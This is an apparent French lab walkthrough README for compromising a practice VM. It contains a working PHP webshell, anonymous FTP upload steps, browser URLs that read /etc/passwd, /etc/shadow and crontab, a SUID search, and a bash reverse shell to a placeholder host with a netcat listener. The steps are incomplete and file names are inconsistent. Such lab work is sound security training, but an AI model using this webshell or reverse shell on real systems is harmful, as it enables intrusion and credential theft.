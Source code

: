 
# télécharger
```01-Local1.ova```

# mettez ceci 
```sha1sum 01-Local1.ova``` pour vérifier le hash

# et regardez si le résultat est
```f3422f3364fd38e8183740f8f57fa951d3f6e0bf```

# installer virtualbox si ce n'est pas encore fait
```sudo apt update && sudo apt install -y virtualbox```

# assure toi d'avoir les outils nécessaires
```sudo apt update && sudo apt install -y net-tools nmap john hydra metasploit-framework```

# double clic sur ```01-Local1.ova```

# donnez 4096MB comme RAM (pour renforcer la machine virtuelle)
au lieu de de 512

# Changez l'adapter en NAT
au lieu de Bridge

# assure toi que la machine virtuelle
soit activée

# mettez ceci
nmap -sn 192.168.1.0/24

# sélectionnez l'adresse de la VM et mettez ceci
nmap -A ```adresse```

# se connecter
se connecter et examiner les fichiers trouvés

# créer webshell.php et y mettre ceci:
```
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>";
    $cmd = ($_GET['cmd']);
    system($cmd);
    echo "</pre>";
}
?>
```

# mettre ceci
ftp 192.168.1.26
login: anonymous
pwd: Entrée (le bouton)

# téléverser le fichier
```put nc.php```

# éxécuter ceci dans un terminal
- nc -lvnp 12000
    - -l : Active le mode "listener".
    - -v : Mode verbeux pour voir les connexions établies.
    - -n : Ignore les DNS pour accélérer la connexion.
    - -p 12000 : Spécifie le port d'écoute.

# faire passer www-data à un utilisateur privilégié

# mettre ceci dans le navigateur:
- http://192.168.1.8/files/simple_shell.php?cmd=cat%20/etc/crontab
- http://192.168.1.8/files/simple_shell.php?cmd=find%20/%20-perm%20-u=s%20-type%20f%202%3E/dev/null
- http://192.168.1.8/files/webshell.php?cmd=cat%20/etc/passwd
- http://192.168.1.26/files/webshell.php?cmd=ls%20-l%20/etc/shadow
- http://192.168.1.26/files/webshell.php?cmd=cat%20/var/backups/apt.extended_states.1.gz

# username
shrek

# password
not yet

# localhost 
- nc -lvp 4444
- bash -c 'bash -i >& /dev/tcp/<TON_IP>/4444 0>&1'

# nmap -sV -sC -O 192.168.1.8
- -sV : Détecte les versions des services en cours d'exécution.
- -sC : Utilise des scripts Nmap pour détecter des vulnérabilités connues.
- -O : Détermine le système d’exploitation (si possible).

# developer
- Prénom NOM: Mouhamed DIOUF
- email: seydiahmedelcheikh@gmail.com

-----------------------------------------------------------------------------------------------

# link for kali
- https://www.youtube.com/watch?v=trPm2DB8678
- https://www.youtube.com/watch?v=B7wCf0JiOcM&list=PLZEN0mW2CQl38fx0wtv53VEmn5CKJIrLA